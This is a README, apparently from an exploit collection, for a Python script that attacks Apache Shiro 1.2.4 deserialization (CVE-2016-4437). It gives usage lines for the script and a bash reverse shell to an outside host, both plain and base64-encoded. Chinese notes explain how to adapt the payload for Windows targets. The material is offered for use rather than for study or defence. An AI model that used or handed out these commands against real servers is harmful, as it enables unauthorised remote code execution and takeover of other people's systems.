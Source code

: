 # Readme
Apache Shiro 


<details>
<summary>Shiro 1.2.4 [点击展开]</summary>
<pre><code>
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

脚本内置了base64编码，但是仅适配Linux，如果测试Windows手动删除base64加密部分即可  
也可以前往以下连接手动base64加密  
http://www.jackson-t.ca/runtime-exec-payloads.html
Original: 
```
bash -i >&/dev/tcp/1.1.1.1/233 0>&1     
```

Encoding：
```
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}
```

利用示例：
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/1.gif)
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/2.gif)


</code></pre>
</details>
